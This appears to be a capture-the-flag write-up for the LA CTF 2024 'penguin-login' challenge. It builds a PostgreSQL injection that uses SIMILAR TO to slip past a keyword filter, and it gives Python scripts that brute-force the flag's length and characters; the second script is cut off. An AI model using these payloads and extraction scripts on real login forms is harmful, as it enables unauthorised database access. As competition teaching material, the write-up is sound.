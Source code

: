 There are services (like [OneCompiler](https://onecompiler.com/postgresql/), that allow you to execute code directly online. Always make sure 100% when using these services that you have selected the right DBMS.

<img class="img-responsive" src="{{ site-url }}/assets/lactf2024/penguin-login/img/OnlineExample.png" alt="Example of using OneCompiler to verify the result of an unconventional query">

##### Proceed in phases
It's helpful to reason in phases the first few times. In mathematics, we can start skipping steps during calculations, but only because we've become familiar enough:

- Identify your goal: in this case, "I want to get the flag" -> "I want to get all the characters of the record that starts with the flag format and ends with `}`".
- Write it down as you would normally: `SELECT name WHERE name LIKE 'lactf{ % }'`.
- Rewrite it bypassing whitelist and blacklist: `SELECT name WHERE name SIMILAR TO 'lactf{_}'` with as many `_` as there are characters in the flag.
- Combine the two techniques shown previously: `SELECT name WHERE name SIMILAR TO 'lactf{_}'` + `SELECT * FROM penguins WHERE name = '%s'` -> remembering that the only column in the DB is `name`, and that we can only write commands in place of `%s`: `SELECT * FROM penguins WHERE name = '' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}'`

The payload will simply be what we wrote in this last phase, which is `' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}`

### Constructing the payload
At this point, all we have to do is construct a `UNION` with a `SIMILAR TO` instead of the more popular `LIKE`. In my case: `' UNION SELECT name WHERE name SIMILAR TO 'lactf{_}`. 

I'm not sure if there was a more convenient way to get the length of the flag, but I just added underscores until I got a positive result. These are the payloads useful for extracting the flag, modified from those used during the competition:

`findlen.py`
```py
from requests import *

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    if r.status_code == 200:
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```

`findflag.py`
```py
from requests import *
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    if len(payloadEnd) > 0:
        payloadEnd = payloadEnd[:-1]
```